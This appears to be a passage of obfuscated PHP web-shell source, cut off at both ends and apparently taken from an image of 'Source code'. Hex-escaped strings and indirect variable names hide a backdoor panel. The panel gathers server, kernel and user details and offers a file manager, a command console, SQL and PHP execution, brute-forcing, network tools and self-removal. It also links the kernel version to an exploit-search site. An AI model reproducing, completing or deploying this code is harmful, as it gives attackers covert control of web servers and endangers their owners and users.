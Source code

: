 \n<i\x6e\x70u\x74\x20ty\x70\x65\x3d\x68\x69\x64den \x6e\x61me=\x63\x68ar\x73\x65\x74\x20va\x6cue\x3d'";$fuuwvbfscbs="\x6d";echo isset($_POST["ch\x61r\x73e\x74"])?$_POST["ch\x61\x72s\x65\x74"]:"";echo "\x27\x3e\x20\n</for\x6d\x3e \n";${"G\x4c\x4f\x42\x41L\x53"}["\x70o\x76r\x68\x73fn\x67\x77"]="\x72el\x65\x61\x73\x65";${${"G\x4c\x4f\x42A\x4cS"}["\x78s\x76qp\x79\x6bjgehw"]}=@diskfreespace($GLOBALS["\x63w\x64"]);${"\x47\x4c\x4f\x42\x41LS"}["a\x67\x70i\x72g\x6b\x6d\x69\x68m"]="\x74\x6fta\x6c\x53\x70\x61c\x65";${${"G\x4c\x4f\x42\x41\x4cS"}["\x73\x64\x69\x6bd\x67\x6f"]}=@disk_total_space($GLOBALS["\x63\x77\x64"]);${"\x47\x4cO\x42\x41\x4c\x53"}["\x6d\x79a\x6f\x67\x6d\x75mt"]="\x70\x61\x74\x68";${$juisftq}=${${"\x47\x4cO\x42A\x4c\x53"}["\x73\x71g\x65ilcq\x6f\x71f"]}?${${"G\x4cO\x42\x41L\x53"}["\x74\x6d\x79\x63f\x6c\x75\x72\x75"]}:1;${${"G\x4cOB\x41\x4c\x53"}["\x70ovrh\x73fn\x67\x77"]}=@php_uname("\x72");$wyvebczhrtuw="\x6e";${"\x47\x4cOB\x41\x4c\x53"}["i\x78rp\x63\x67e\x70\x72s\x66"]="\x69";${${"\x47L\x4fB\x41\x4c\x53"}["z\x78h\x74\x65\x65se"]}=@php_uname("s");${$defgwadk}="\x68\x74\x74p://\x6di\x6cw0\x72\x6d.c\x6fm/se\x61r\x63\x68.ph\x70?d\x6fn\x67\x3d";if(strpos("Li\x6eux",${${"\x47\x4c\x4f\x42\x41LS"}["z\x78h\x74ee\x73e"]})!==false)${${"\x47L\x4f\x42\x41\x4cS"}["\x69v\x75c\x74\x76\x6f\x6d\x63\x6a"]}.=urlencode("Li\x6e\x75x \x4b\x65\x72n\x65\x6c ".substr(${$ejerddvxbdm},0,6));else${${"\x47\x4c\x4fBAL\x53"}["\x66\x69\x72\x69v\x70\x6f\x63"]}.=urlencode(${${"\x47L\x4fB\x41L\x53"}["zxh\x74ee\x73\x65"]}." ".substr(${${"GLO\x42A\x4c\x53"}["e\x71\x63w\x77m\x6fl"]},0,3));if(!function_exists("p\x6f\x73\x69x\x5fge\x74e\x67\x69d")){$auggmxq="\x67\x69\x64";${"G\x4c\x4f\x42A\x4c\x53"}["\x7ay\x67\x72b\x6d\x6e\x6bb"]="\x75\x69d";$iwqoye="\x67\x72\x6fu\x70";${${"\x47\x4c\x4f\x42A\x4cS"}["l\x68\x78\x6d\x73r\x71\x69"]}=@get_current_user();${${"\x47\x4c\x4fB\x41L\x53"}["\x7ay\x67\x72\x62m\x6e\x6b\x62"]}=@getmyuid();${$auggmxq}=@getmygid();${$iwqoye}="?";}else{${"\x47L\x4f\x42A\x4cS"}["\x70qt\x77\x63iv"]="ui\x64";${${"\x47\x4cOB\x41\x4c\x53"}["yr\x67\x65\x67\x79c\x62"]}=@posix_getpwuid(@posix_geteuid());$dipvrmibusw="\x67\x69d";${$dipvrmibusw}=@posix_getgrgid(@posix_getegid());$oljwhoksbktq="\x67\x69\x64";${${"\x47L\x4fBA\x4c\x53"}["\x6chxm\x73r\x71\x69"]}=${${"G\x4c\x4fBA\x4c\x53"}["\x79r\x67\x65g\x79\x63\x62"]}["\x6ea\x6de"];${${"G\x4c\x4f\x42\x41\x4c\x53"}["\x79\x72\x67\x65g\x79\x63\x62"]}=${${"GL\x4fB\x41\x4c\x53"}["pqt\x77c\x69\x76"]}["u\x69\x64"];${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x73t\x74\x73a\x64cf"]}=${${"G\x4c\x4f\x42\x41L\x53"}["\x68i\x79\x76\x69t\x69c"]}["n\x61\x6de"];${$oljwhoksbktq}=${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x68i\x79\x76it\x69c"]}["\x67\x69d"];}${$tdmwcoigygrb}="";${${"G\x4cOB\x41L\x53"}["m\x79\x61\x6f\x67mumt"]}=explode("/",$GLOBALS["\x63\x77\x64"]);${$wyvebczhrtuw}=count(${${"GL\x4f\x42\x41L\x53"}["qps\x76\x63q\x69\x6d\x71\x71"]});${"G\x4cO\x42\x41\x4cS"}["\x78e\x6ax\x75q\x68\x78\x67\x61\x7a"]="opt_\x63h\x61\x72se\x74\x73";$rvtuoclduqv="\x76";for(${${"\x47\x4c\x4f\x42\x41\x4cS"}["\x6a\x66y\x76\x71\x6f\x79"]}=0;${${"G\x4c\x4f\x42\x41L\x53"}["\x61\x6c\x6ao\x62\x65rj\x65ev\x6d"]}<${${"\x47L\x4f\x42\x41\x4c\x53"}["m\x74\x64\x64\x72ec\x64\x77j\x71"]}-1;${${"\x47L\x4f\x42A\x4cS"}["\x69\x78\x72\x70c\x67\x65\x70r\x73\x66"]}++){$hvdsosfkvqe="\x6a";$mxqcjks="c\x77\x64_\x6c\x69n\x6b\x73";${"\x47\x4cOBA\x4cS"}["\x68b\x64o\x62er\x6a\x66\x64\x73"]="\x63wd\x5f\x6c\x69\x6e\x6bs";${"\x47\x4c\x4fB\x41\x4c\x53"}["\x74\x73r\x69\x6c\x6a\x67"]="\x6a";${${"\x47\x4cO\x42A\x4cS"}["l\x61\x72\x64s\x69\x74"]}.="\x3c\x61\x20hre\x66=\x27\x23\x27 onc\x6ci\x63\x6b=\x27\x67(\"\x46i\x6cesMa\x6e\",\"";for(${${"\x47\x4cOBAL\x53"}["\x6ai\x6bf\x65\x6ao\x76o"]}=0;${${"GL\x4f\x42A\x4cS"}["t\x73\x72\x69\x6c\x6ag"]}<=${${"GL\x4f\x42ALS"}["a\x6c\x6a\x6f\x62\x65r\x6a\x65\x65\x76\x6d"]};${${"\x47\x4cO\x42\x41\x4c\x53"}["j\x69k\x66\x65j\x6f\x76\x6f"]}++)${${"\x47\x4cOB\x41\x4cS"}["\x68\x62dob\x65r\x6a\x66\x64s"]}.=${${"\x47\x4c\x4f\x42AL\x53"}["q\x70svcq\x69mq\x71"]}[${$hvdsosfkvqe}]."/";${$mxqcjks}.="\x22)\x27>".${${"\x47\x4c\x4fBA\x4c\x53"}["q\x70\x73vc\x71\x69\x6dqq"]}[${${"\x47\x4c\x4fB\x41L\x53"}["\x61lj\x6fb\x65rj\x65e\x76\x6d"]}]."/\x3c/a>";}$mdlhotyngx="\x63h\x61\x72se\x74\x73";${$mdlhotyngx}=array("U\x54F-\x38","\x57indo\x77s-\x3125\x31","\x4b\x4fI8-\x52","\x4bOI8-U","cp\x3866");${${"\x47L\x4f\x42\x41\x4cS"}["\x78\x65j\x78\x75\x71\x68\x78\x67\x61z"]}="";foreach(${${"\x47\x4c\x4fB\x41\x4c\x53"}["\x77\x73x\x62\x64\x79g\x75\x75\x61"]} as${${"\x47\x4c\x4f\x42\x41\x4cS"}["s\x64\x6b\x6bp\x78ry\x73\x74\x6a"]})${${"GLOB\x41\x4c\x53"}["\x61qb\x78v\x69x\x6cf\x63\x69"]}.="<\x6fp\x74i\x6fn\x20\x76a\x6c\x75\x65\x3d\x22".${${"GLO\x42\x41\x4c\x53"}["\x73\x64kkp\x78rys\x74\x6a"]}."\x22 ".($_POST["c\x68a\x72\x73e\x74"]==${${"\x47\x4c\x4f\x42A\x4cS"}["yw\x79p\x73\x71j\x79"]}?"s\x65\x6cec\x74ed":"").">".${${"\x47\x4c\x4f\x42ALS"}["\x73dk\x6b\x70\x78r\x79\x73tj"]}."</o\x70\x74io\x6e\x3e";${$dekertxrrzeg}=array("S\x65c. \x49n\x66\x6f"=>"\x53e\x63In\x66\x6f","F\x69l\x65s"=>"\x46ile\x73\x4d\x61n","\x43\x6f\x6es\x6f\x6ce"=>"\x43\x6fn\x73ole","\x53\x71l"=>"\x53ql","\x50\x68\x70"=>"Ph\x70","\x53\x61f\x65 \x6do\x64e"=>"S\x61f\x65\x4d\x6f\x64\x65","S\x74r\x69\x6e\x67 \x74\x6fo\x6c\x73"=>"\x53\x74\x72i\x6eg\x54\x6fols","Br\x75\x74e\x66\x6fr\x63e"=>"\x42\x72\x75\x74e\x66\x6frce","Ne\x74\x77ork"=>"N\x65t\x77\x6f\x72k");if(!empty($GLOBALS["\x61ut\x68_pas\x73"]))${${"G\x4cO\x42\x41\x4cS"}["\x61\x68\x68\x6c\x72\x76k"]}["\x4cog\x6f\x75t"]="Log\x6fut";${$zslmanpgkvpu}["Sel\x66\x20\x72e\x6dove"]="\x53e\x6cf\x52e\x6do\x76\x65";${${"\x47\x4c\x4f\x42\x41\x4cS"}["wb\x72\x66\x76\x70\x79s\x6f\x72"]}="";foreach(${$fuuwvbfscbs} as${${"\x47LO\x42\x41LS"}["\x65nrh\x65u\x76\x69\x66\x63e"]}=>${$rvtuoclduqv})${$rokmunwuggd}.="\x3cth